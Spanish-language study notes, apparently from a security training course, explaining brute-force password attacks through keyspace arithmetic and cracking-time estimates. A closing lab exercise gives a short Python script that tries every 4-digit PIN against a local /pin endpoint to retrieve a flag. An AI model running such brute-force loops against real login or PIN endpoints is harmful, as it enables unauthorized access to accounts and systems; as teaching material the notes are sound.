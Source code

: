 ## Ataques de fuerza bruta

Para tener una comprensión exacta de los ataques de fuerza bruta, es necesario tener conocimiento en `matemáticas` 
Formula para calcular el número de combinaciones para una contraseña
```python
Combinaciones posibles = Tamaño del conjunto de caracteres^Longitud de la contraseña
```

tabla que ilustra el numero de combinaciones posibles

| Longitud de la contraseña | numero de caracteres | Posibles combinaciones                                |                                     |
| ------------------------- | -------------------- | ----------------------------------------------------- | ----------------------------------- |
| `Short and Simple`        | 6                    | Letras minúsculas (a-z)                               | 26^6 = 308.915.776                  |
| `Longer but Still Simple` | 8                    | Letras minúsculas (a-z)                               | 26^8 = 208.827.064.576              |
| `Adding Complexity`       | 8                    | Letras minúsculas y mayúsculas (a-z, A-Z)             | 52^8 = 53.459.728.531.456           |
| `Maximum Complexity`      | 12                   | Letras, números y símbolos en minúsculas y mayúsculas | 94^12 = 475.920.493.781.698.549.504 |
Como se ve en la tabla el numero de combinaciones posibles crece por el aumento de numero de caracteres esto hace que el espacio de búsqueda crezca, esto hace que el descifrado de contraseñas sea mas difícil cada vez, pero el tiempo que lleva descifrar una contraseña depende de el tamaño del espacio de búsqueda, la potencia computacional del atacante
Este tipo de ataques puede llevarle años a una sola computadora, debido a esto se recurre al uso de redes distribuidas lo que permite reducir el tiempo  de descifrado.
![[Pasted image 20241223084255.png]]
En el grafico se puede ver la diferencia entre una computadora básica y una super computadora
- Computadora básica (1 millón de contraseñas por segundo): adecuada para descifrar contraseñas simples rápidamente, pero resulta imprácticamente lenta para contraseñas complejas. Por ejemplo, descifrar una contraseña de 8 caracteres usando letras y dígitos llevaría aproximadamente 6,92 años. 
- Supercomputadora (1 billón de contraseñas por segundo): reduce drásticamente los tiempos de descifrado de contraseñas más simples. Sin embargo, incluso con esta inmensa potencia, descifrar contraseñas altamente complejas puede llevar una cantidad de tiempo impráctica. Por ejemplo, una contraseña de 12 caracteres con todos los caracteres ASCII aún tardaría unos 15.000 años en descifrarse.
### Descifrando el PIN

La aplicación de instancia genera un PIN aleatorio de 4 dígitos y expone un punto final (/pin) que acepta un PIN como parámetro de consulta. Si el PIN proporcionado coincide con el generado, la aplicación responde con un mensaje de éxito y una bandera. De lo contrario, devuelve un mensaje de error. 
Usaremos este sencillo script de demostración de Python para forzar el punto final /pin en la API. Copie y pegue este script de Python a continuación como pin-solver.py en su máquina. Solo necesita modificar las variables de IP y puerto para que coincidan con la información de su sistema de destino.
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
